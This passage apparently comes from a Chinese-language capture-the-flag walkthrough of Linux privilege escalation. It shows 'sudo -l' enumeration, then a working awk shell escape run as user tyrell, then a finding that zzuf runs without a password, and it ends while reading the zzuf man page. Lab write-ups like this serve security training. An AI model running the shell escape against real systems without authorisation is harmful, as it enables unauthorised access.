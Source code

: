 

### 执行sudo -l

```
sudo -l
```

![image-20250325132952889](assets/image-20250325132952889.png)

以tyrell身份执行awk



### awk提权

```
sudo -u tyrell awk 'BEGIN {system("/bin/sh")}'
whoami
```

![image-20250325133032062](assets/image-20250325133032062.png)



### 执行sudo -l

```
sudo -l
```

![image-20250325133051081](assets/image-20250325133051081.png)

无密码执行zzuf



### 查看使用文档

```
cd /tmp
man zzuf > help
cat help
```
